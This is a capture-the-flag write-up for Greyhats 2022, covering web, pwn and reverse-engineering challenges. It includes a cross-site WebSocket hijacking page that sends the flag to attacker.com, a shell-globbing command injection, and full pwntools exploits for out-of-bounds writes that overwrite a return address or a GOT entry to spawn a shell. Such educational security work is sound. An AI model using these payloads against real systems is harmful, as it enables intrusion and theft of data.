


# Greyhats 2022

19th place (4501 points) 1/cosd 

2370 points, samuzora

## Web

### Too Fast

On viewing the raw HTML, there seems to be some "comments" regarding some sort of portal.



Portal... admin portal?

If we try to make a request to /admin.php, we realize we are getting redirected.

Hence, to get the flag we can use curl, which doesn't respect 302 Moved or redirect headers.

```bash
$ curl http://challs.nusgreyhats.org:14004/admin.php
<p><span style='color: #ffffff;'>grey{why_15_17_571LL_ruNn1n_4Pn39Mq3CQ7VyGrP}</span></p>
```

---

### selnode

The challenge wants us to run a binary to get the flag. 

After googling for a bit, I found this repo:

[here](https://github.com/JonStratton/selenium-node-takeover-kit)

For this challenge, RCE not possible (I think) cos the RCE exploit is only for Firefox. I didn't test to check if Firefox works, but on analysing the Dockerfile it's probably not installed? It's ok, we can use file download feature.

This makes use of the Selenium headless chrome browser and the data URL scheme to execute arbitrary JavaScript and download local files from the server.

To change to Chrome headless (ref. download.py), add the following lines:

```py
# Probably any browser would work here 
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument('--headless')
chrome_options.add_argument('--no-sandbox')
chrome_options.add_argument('--disable-dev-shm-usage')
driver = webdriver.Remote( command_executor=hub_url, desired_capabilities={'browserName': browser}, options=chrome_options)
driver.file_detector = UselessFileDetector()
```

`python3 download.py -h http://challs.nusgreyhats.org:12323/wd/hub -r /flag -l ./out`

Run ./out and flag!

`grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}`

---

### Quotes

*I really thought I could get first blood for this one smh* - samuzora

This challenge is a quote generator service. Below is a summary of the various endpoints:

#### /auth

```py
# authenticate localhost only
@app.route('/auth')
def auth():
    print('/auth', flush=True)
    print(request.remote_addr, flush=True)
    if request.remote_addr == "127.0.0.1":
        resp = make_response("authenticated")
        # I heard httponly defend against XSS(what is that?)
        resp.set_cookie("auth", auth_token, httponly=True)
    else:
        resp = make_response("unauthenticated")
    return resp
```

This endpoint will return an authentication cookie, granted we are 127.0.0.1. `request.remote_addr` is not vulnerable to IP or domain spoofing.

#### /quote

```py
@sockets.route('/quote')
def echo_socket(ws):
    print('/quote', flush=True)
    while not ws.closed:
        try:
            try:
                cookie = dict(i.split('=') for i in ws.handler.headers.get('Cookie').split('; '))
                print(cookie)
            except Exception as e:
                print(e, flush=True)
                cookie = {}

            # only admin from localhost can get the GreyCat's quote
            if ws.origin.startswith("http://localhost") and cookie.get('auth') == auth_token:
                ws.send(f"{os.environ['flag']}")
            else:
                ws.send(f"{quotes[random.randint(0,len(quotes))]}")
            ws.close()
        except Exception as e:
            print('error:',e, flush=True)
```			

This endpoint isn't our usual HTTP endpoint, but a WebSocket. More on this later, but it's very crucial that this is a WebSocket. If the WebSocket origin (the domain that caused the client to invoke the connection) starts with `http://localhost` and the client has the auth cookie, the flag will be returned.

#### /share

This endpoint allows us to achieve arbitrary CSRF, just to facilitate the challenge.

---

#### About WebSockets

> WebSocket is a computer communication protocol... uses the HTTP Upgrade Header to **change from HTTP to WebSocket**. - Wikipedia

WebSockets are generally initiated from a normal HTTP request, and upgraded by the server response to a WebSocket. 

#### Same-Origin Policy

HTTP requests are protected by SOP, which means that `fetch()` is only allowed to return data to JavaScript from, say, `example.com` domain, if it's invoked from an `example.com` page, and not from an `not-example.com` page. Regardless of which domain it's from, the request will still be made; SOP only dictates whether the response can be read from the page `fetch()` was invoked.

This protects `example.com` from malicious requests originating from attacker servers, which try to read sensitive data through the client. (known as Cross-Site Request Forgery)

WebSockets are not protected by SOP! This means that we (the attacking server) can read the data the client receives, and potentially leak it. 

---

Now that we know what WebSockets can do, let's try to exploit it!

#### Part 1: Auth cookie

How to deal with the Auth cookie? Since it's HttpOnly, we can't access the cookie via JavaScript :((

But since WebSockets are upgraded from HTTP, this means that we don't even need access to the cookie; when the client connects to the WebSocket, as long as they already have the cookie cached in the browser, it will be sent together with the WebSocket connection.

Thus, we need a way to request /auth directly in the browser, and still retain control after that.

`window.open()` is perfect for this. It opens a new window with the specified URL.

```html
<script>
	window.open('http://challs.nusgreyhats.org:12326/auth');
	window.open('http://challs.nusgreyhats.org:12326/');
</script>
```

> Remember to open a new page to allow the browser to cache the cookie! (ps. this cost me my first blood)

#### Part 2: WebSocket

Making a request to a WebSocket isn't as easy as HTTP. Lucklily, we don't need to implement our own as the challenge kindly provides one for us.

```js
function connect() {
	var host = "ws://localhost:7070/quote";
	socket = new WebSocket(host);
	try {

		socket.onopen = function(msg) {
			console.log(msg);
			socket.send("getquote");
			// alert("连接成功！");
		};

		socket.onmessage = function(msg) {
			if (typeof msg.data == "string") {
				let [quote, author] = msg.data.split(' ~');
				author = author ? author : "GreyCat";
				$("#quote").html(quote);
				$("#author").html(author);
			} else {
				alert("wtf?");
			}
		};

		socket.onclose = function(msg) {
			return;
		};
	} catch (ex) {
		log(ex);
	}
}
```

Let's cut down on some unecessary bloat to make our template shorter.

```js
function connect() {
	var host = "ws://localhost:7070/quote";
	socket = new WebSocket(host);
	socket.onopen = function(msg) {
		console.log(msg);
		socket.send("getquote");
		// alert("连接成功！");
	};

	socket.onmessage = function(msg) {
		console.log(msg.data);
	};
}
```

```html
<script>
	function connect() {
		var host = "ws://localhost:7070/quote";
		socket = new WebSocket(host);
		socket.onopen = function(msg) {
			console.log(msg);
			socket.send("getquote");
			// alert("连接成功！");
		};

		socket.onmessage = function(msg) {
			fetch("http://attacker.com/?"+msg.data)
		};
	}

	window.open('http://challs.nusgreyhats.org:12326/auth');
	window.open('http://challs.nusgreyhats.org:12326/');
</script>
```

#### Part 3: "localhost" bypass

```py
if ws.origin.startswith("http://localhost") and cookie.get('auth') == auth_token:
```

It checks our origin and only sends the flag if it starts with `http://localhost`. Seems legit?

Or we could just create a `localhost.xxx` subdomain and bypass it.

---

We're done with the exploit, now we can just host a simple HTTP server using Python Flask, serve the template and make the bot visit our URL.

`grey{qu0735_fr0m_7h3_w153_15_w153_qu0735_7a4c6ec974b6d8b0}`

alert('偷 flag 成功!')

---

### Shero (incomplete)

```php
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>
```

Our payload must match `[.cat!? /\|\-\[\]\(\)\$]` regex.

There's this thing called shell globbing, means we can use ? as a wildcard for filenames. Also, we have limited regex [act] for globbing, so we can further narrow down our filenames.

With this, we can contruct various types of payloads:

1. echo `/?????? || /???/?c?? <something>`
	1. This one quite important, we can use it to double check globbing
2. ls `/?????? || /???/[!a-c]?? <something>`
	1. Uses /bin/dir instead of /bin/ls
	2. Using this, we can ls / and find /flag.txt and /readflag
3. cat (no need rite...)
	1. If we try to cat /flag.txt, we realize we don't have read perms, but can cat /readflag and download

After we got /readflag, we can decompile locally and find the password, `sRPd45w_0`

Then I stuck alr :(

---

### Grapache (incomplete)

This one really waste my time... I spent 1 day on it thinking I can blood lolol

The challenge is a Grafana server running behind Apache reverse proxy. 

About Grafana, after searching for a bit I found [this writeup](https://nusgreyhats.org/posts/writeups/a-not-so-deep-dive-in-to-grafana-cve-2021-43798/) (by nusgreyhats!)

Apparently there's a path traversal bug, but the writeup only shows how to bypass Nginx proxy, not Apache.

Now we have 2 options:

1. Try to find Apache path traversal bypass
2. Apache SSRF to backend and path traversal

I tried the first one for very very very very long, until I decided it's not possible.

Then I found [this](https://firzen.de/building-a-poc-for-cve-2021-40438) SSRF vuln, and tried to exploit it but fail

Post-CTF: Apparently it's the correct method :(( I just too noob to do it

---

## Pwn

### easyoob

```c
typedef struct entry
{
    int userid;
    int score;
} entry;

int main()
{
    entry leaderboard[20];

    setup_io();
    puts(BANNER);
    usage();

    command cmd;
    do {
        cmd = get_command();
        if (cmd.op == 1) handle_read(leaderboard, cmd);
        else if (cmd.op == 2) handle_write(leaderboard, cmd);
    } while (cmd.op != 3);

    puts("Thanks for using LeaderboardDB. Your changes are not saved.");

    return 0;
}

void handle_write(entry* leaderboard, command cmd)
{
    leaderboard[cmd.pos].userid = cmd.userid;
    leaderboard[cmd.pos].score = cmd.score;
    printf("%d. [%d]  %d\n", cmd.pos, leaderboard[cmd.pos].userid, leaderboard[cmd.pos].score);
}
```

This is the relevant code in the source given. We can see that `handle_write` doesn't do any sort of check as to whether it's writing to a valid index in the `leaderboard` array, allowing us to write outside the array (ie. `leaderboard[-1], leaderboard[21]` etc.)

This is known as out of bounds write (in case the challenge title didn't give it away).

In this case, we want to be able to change the return address, so when main returns, instead of going to the intended cleanup function, it'll return to our desired function (ezflag). How can we do this?

#### Controlling RIP

When a function returns, it pops the top of stack (TOS) into `$RIP`, the instruction pointer. The program reads the address from `$RIP` to determine where to jump to next. If we can control the TOS when the function returns, it will allow us to control program flow. 

The addresss of `ezflag` can be determined, either using radare2 or via pwntools's auto address finder.

---

In `main()`, `leaderboard[20]` would be the TOS before the expected return address. Let's write to `leaderboard[21]`!

However, if you've attempted this challenge, you'll notice that this exploit might work locally but not on remote. This is a common issue known as movaps. To solve this, we just need to call a ret gadget before our function.

#### Gadgets

Gadgets are small snippets of assembly that usually end with `ret`. In our case, the gadget we want to call is `ret` itself.

To find them, you can either use `ROPgadget` or pwntools's auto gadget finder.

---

Before we construct our exploit, it's good to remember that we pass in the actual address (base 10) of the function, not in byte form. Slightly different from a typical buffer overflow.

```py
from pwn import *

# --- setup ---
elf = context.binary = ELF('./easyoob')
rop = ROP(elf)
# p = process()
p = remote('challs.nusgreyhats.org', 10524)

# --- exploit ---

# note: not necessary to change these to bytestrings, it's just the avoid the pwntools warning.
p.sendline(bytes(f'2 22 {elf.sym.ezflag} 0', 'utf-8'))
p.sendline(bytes(f'2 21 {rop.ret.address} 0', 'utf-8'))
p.sendline(b'3')
p.interactive()
# ret goes in `array[21]` (4198426), ezflag goes in `array[22]` (4198838)
```

`grey{g00d_j0b_n0w_g0_7ry_easyoob2}`

---

### easyoob2

```c
typedef struct entry
{
    int score;
    char name[4];
} entry;

void handle_upperify(entry* leaderboard, command cmd)
{
    char* name = leaderboard[cmd.pos].name;
    int len = strlen(name);
    for (size_t i = 0; i < len; ++i) name[i] = toupper(name[i]);
    printf("%d. %-4s  %d\n", cmd.pos, leaderboard[cmd.pos].name, leaderboard[cmd.pos].score);
}

entry leaderboard[20];

int main()
{
    setup_io();
    puts(BANNER);
    usage();

    command cmd;
    do {
        cmd = get_command();
        if (cmd.op == 1) handle_read(leaderboard, cmd);
        else if (cmd.op == 2) handle_write(leaderboard, cmd);
        else if (cmd.op == 3) handle_upperify(leaderboard, cmd);
    } while (cmd.op != 4);

    puts("Thanks for using LeaderboardDB. Your changes are not saved.");

    return 0;
}
```

A few things have changed from oob1. 

1. Our leaderboard is no longer in `main`
2. There's no `ezflag` function to call
3. Instead of `user_id`, we now have `name`, which is a string

For 1, this means no overwriting of `$RIP`. The leaderboard isn't found on the stack anymore, it's in the .text section. We cannot reliably determine the address of the stack due to ASLR.

For 2, this means we need to call another function that will give us a shell.

For 3, this means that we need to be careful when inputting our address. The upper 4 bits will be in the name (so in byte form), while the lower 4 bits will still be base 10.

---

#### Global Offset Table

The GOT resolves function addresses loaded from libaries (aka libc). It links an arbitrary address in GOT to the actual address of the function in libc. If we were to overwrite the destination address though... the program won't know any better!

---

GDB-GEF allows us to view the GOT.

```
gef➤  got

GOT protection: Partial RelRO | GOT functions: 7

[0x404018] toupper@GLIBC_2.2.5  →  0x401030
[0x404020] puts@GLIBC_2.2.5  →  0x7ffff7e04ed0
[0x404028] strlen@GLIBC_2.2.5  →  0x401050
[0x404030] __stack_chk_fail@GLIBC_2.4  →  0x401060
[0x404038] printf@GLIBC_2.2.5  →  0x7ffff7de4770
[0x404040] setvbuf@GLIBC_2.2.5  →  0x7ffff7e05670
[0x404048] __isoc99_scanf@GLIBC_2.7  →  0x7ffff7de6110
```

(This is the GOT state right until they wait for our input.)

We now roughly know the location of the GOT. The addresses that start with 7f have already been resolved, so that's the actual address of the function in LIBC, which changes every time we run the binary.

#### libc addresses

libcs are quite similar to our regular binary, the only thing that changes is the base of the libc. This changes every time we run the binary, and all other libc addresses are calculated from a positive offset of it. Our goal is to find this base address, which will allow us to calculate the addresss of any other function! (like `system`)

We'll do this by leaking resolved addresses from the GOT.

---

Using radare2, we can find the offset of the GOT from the leaderboard.

```
[0x00401110]> s main
[0x004015db]> V
p
```





I see the GOT above Leaderboard (the reloc stuff)! If we want to overwrite `strlen`, we are 0x404028 - 0x4040a0 = -120 bytes off. Since the entry struct defined earlier takes up 8 bytes each, our index in Leaderboard would be -15. `puts` would be -16, and `printf` would be -13.

Let's construct our exploit.

```py
from pwn import *
import sys


# --- setup ---
elf = context.binary = ELF('./easyoob2')
if sys.argv[1] == 'l':
    p = process()
    gdb.attach(p)
else:
    p = remote('challs.nusgreyhats.org', 10526)


# --- exploit ---
def leak(p, index):
    p.clean()
    p.sendline(f'1 {index}')
    p.recvuntil(f'{index}. ')
    a = p.recvline().strip()
    upper = hex(int(a[0]))
    a = int(bytes.decode(a[6:], 'utf-8'))
    if a > 0:
        lower = hex(a)
        addr = f'0x7f{upper[2:]}{lower[2:]}'
        print(f"positive {addr = }")
    else:
        lower = hex(0x800000000000 + a)
        addr = f'0x7f{upper[2:]}{lower[-8:]}'
        print(f"negative {addr = }")
    return int(addr, 16)


p.sendline(b'3 1')
puts_leak = leak(p, -16)
printf_leak = leak(p, -13)
```

One more thing I forgot to mention: the offsets of each function in libc differ from libc to libc version. This means that we need to find out what libc the remote is using in order to resolve an address to `system()`.

Since the libc base always ends with a bunch of zeroes, the last 3 nibbles of leaked addresses remain constant, and acts like a "fingerprint" to the libc.

In the exploit above, we leak puts and printf. With these 2 addresses, we are more than likely to be above to narrow down the possible remote libcs to a single libc. Use [this](http://libc.rip) to find the appropriate libc.

After downloading the libc, our base address would be:

leak - address in libc = libc base

And the address of system would be:

libc base + system address in libc = system address

---

Now we just need to call system somewhere. How about overwriting `strlen` GOT? It's especially convenient as `name` is passed directly into it, so we can easily execute `sh`.

```py
from pwn import *
import sys


# --- setup ---
elf = context.binary = ELF('./easyoob2')
rop = ROP(elf)
# toggle local/remote
if sys.argv[1] == 'l':
    p = process(argv=['./ld-50390b2ae8aaa73c47745040f54e602f.so.2', './easyoob2'], env={'LD_PRELOAD':'./libc6_2.31-0ubuntu9.7_amd64.so'})
    gdb.attach(p)
    libc = ELF('./libc6_2.31-0ubuntu9.7_amd64.so')
else:
    p = remote('challs.nusgreyhats.org', 10526)
    libc = ELF('./libc6_2.31-0ubuntu9.7_amd64.so')


# --- exploit ---
def leak(p, index):
    p.clean()
    p.sendline(f'1 {index}')
    p.recvuntil(f'{index}. ')
    a = p.recvline().strip()
    upper = hex(int(a[0]))
    a = int(bytes.decode(a[6:], 'utf-8'))
    if a > 0:
        lower = hex(a)
        addr = f'0x7f{upper[2:]}{lower[2:]}'
        print(f"positive {addr = }")
    else:
        lower = hex(0x800000000000 + a)
        addr = f'0x7f{upper[2:]}{lower[-8:]}'
        print(f"negative {addr = }")
    return int(addr, 16)


def overwrite(p, index, addr):
    p.clean()
    # 0x00XX00000000
    upper = chr(int(hex(addr)[4:6], 16))
    # 0x0000XXXXXXXX
    lower = int(hex(addr)[6:], 16)
    payload = f'{upper}\x7f {lower}'
    p.sendline(f'2 {index} {payload}')


p.sendline(b'3 1')
puts_leak = leak(p, -16)
printf_leak = leak(p, -13)
# determined libc version ./libc6_2.31-0ubuntu9.7_amd64.so

p.sendline(b'2 0 sh\x00 0') # end it off with a null byte, without the null byte will get sigsegv for some reason
libc_base = puts_leak - libc.sym.puts
libc.address = libc_base
print(hex(libc_base))

# overwrite strlen
overwrite(p, -15, libc.sym.system)
p.sendline(b'3 0')
p.interactive()
```

If you want to debug your exploit in GDB locally, need to run it as shown above. To find the correct ld, clone [this repo](https://github.com/matrix1001/welpwn/tree/master/PwnContext/libs) and try each ld one by one, likely quite a few of them will work.

Caveat: you won't have access to a lot of GDB's and GEF's functionality, but at least we can view registers and whatnot (which actually helped me solve the challenge, because I was passing in "sh" and not "sh\x00", so I could see that `RDI`'s contents were not as expected.

```
[*] Switching to interactive mode
-15. \xd1    1397318336

> $ ls
flag.txt
run
$ cat flag.txt
grey{0k_n0t_b4d_t1m3_t0_try_th3_h4rd3r_0n3s}
```

---

### easyuaf

TODO

---

## RE/Misc

### parcel

`strings ./parcel -n 8`

gives you smtg abt upx

`tldr upx`

to decompress, `upx -d ./parcel`

`r2 parcel`

run the binary then use r2 to find the various addresses

`grey{d1d_y0u_us3_nm_0r_objdump_0r_gdb_0r_ghidra_0r_rizin_0r_ida_0r_binja?}`

### flappy.js

`window`

lists all global properties

there's a genFlag() function, run it to get the flag

`grey{5uch_4_pr0_g4m3r}`

### flappybird

Below is using IDA Pro

1. Change all `jz xx` in checkCollision to `jnz xx`
2. In checkCollision where it checks whether the bird hit the pipe, change return 2 to return 1 (`add [rbp+status] 1` to `add [rbp+status] 0`)
3. In processInput, change `mov isOver, 1` to `mov isOver, 0`

---

For o2 (I didn't solve completely)

4. In updateAndDrawFlag, change `jz short loc_2814` to `jnz short loc_2814`
5. In checkAndHandleCollision, change `add eax, 1` to `add eax, 50` when the score is being incremented. (0x50)
